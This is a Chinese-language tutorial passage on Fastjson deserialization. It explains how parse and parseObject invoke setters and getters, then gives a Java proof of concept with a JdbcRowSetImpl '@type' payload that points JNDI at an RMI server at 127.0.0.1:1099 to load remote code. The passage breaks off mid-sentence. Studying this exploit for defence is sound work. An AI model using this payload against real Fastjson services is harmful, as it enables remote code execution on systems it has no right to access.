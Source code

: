 > 添加后在序列化的时候会保持User类格式，也就是会固定类
>
> 此时反序列化parse会调用set方法
>
> parseObject会调用get和set方法
>
> 反序列化制定类的时候，会默认调用set方法

## 漏洞

> 1、序列化固定类后：
>
> parse方法在调用时会调用set方法
>
> parseObject在调用时会调用set和get方法
>
> 2、反序列化指定类后：
>
> parseObject在调用时会调用set方法
>
> 所以fastjson反序列化漏洞利用就是看set和get方法,在追踪链的时候也是

```java
package FastjsonUnserializationDemo.One;

import com.alibaba.fastjson.JSON;

public class FastjsonRce {
    public static void main(String[] args) {
//        Class.forName("com.sun.rowset.JdbcRowSetImpl");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/cxzyc6\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);

    }
}
```

分析：

>  System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
>
> 这行代码设置了JNDI加载远程代码的信任，允许从远程服务器加载类。在较新的JDK版本中，默认情况下这个属性是false，需要手动设置为true才能加载远程代码。

在这个代码中通过JSON.parse()来反序列化payload字符串，

在字符串中，

> @type：指定要反序列化的类为com.sun.rowset.JdbcRowSetImpl
> dataSourceName：指定远程RMI服务地址
> autoCommit：触发JdbcRowSetImpl的setter方
